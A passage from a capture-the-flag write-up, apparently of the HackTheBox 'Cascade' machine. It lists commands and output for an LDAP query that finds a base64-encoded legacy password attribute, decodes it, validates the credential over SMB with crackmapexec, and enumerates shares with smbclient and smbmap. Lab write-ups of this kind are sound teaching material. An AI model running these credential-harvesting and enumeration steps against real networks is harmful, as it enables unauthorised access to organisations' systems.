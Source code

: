 ```bash
root@darkness:~# ldapsearch -x -b 'dc=cascade,dc=local' -h 10.10.10.182 "(cascadeLegacyPwd=*)"
[...]
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
[...]
```

The value of the attribute seems to be base64-encoded data. Let us quickly decode the string:

```bash
root@darkness:~# echo -n 'clk0bjVldmE=' | base64 -d
rY4n5eva
```

Looks like a possible password-candidate. The name cascadeLecacy**P**ass**W**or**D** also reinforces this theory.

Let us check this password against SMB.

```bash
root@darkness:~# crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva
```

Seems like we got a valid password! Let us enumerate SMB now that we have credentials.

### SMB - Port 445

Now that we have a valid set of credentials, we can start enumerating the SMB-shares of the server.

```bash
root@darkness:~# smbclient -L //10.10.10.182// -U 'cascade.local\r.thompson'
Enter CASCADE.LOCAL\r.thompson password: rY4n5eva

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Audit$          Disk      
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        print$          Disk      Printer Drivers
        SYSVOL          Disk      Logon server share
```

Both the `Audit$` and the `Data` share seem very interesting. We could have also used smbmap to list these shares.

```bash
root@darkness:~# smbmap -H 10.10.10.182 -u r.thompson -p rY4n5eva -d cascade.local
[+] IP: 10.10.10.182:445        Name: 10.10.10.182                                      
        Disk                    Permissions     Comment
        ----                    -----------     -------
        ADMIN$                  NO ACCESS       Remote Admin
        Audit$                  NO ACCESS
        C$                      NO ACCESS       Default share
        Data                    READ ONLY
        IPC$                    NO ACCESS       Remote IPC
        NETLOGON                READ ONLY       Logon server share 
        print$                  READ ONLY       Printer Drivers
        SYSVOL                  READ ONLY       Logon server share
```
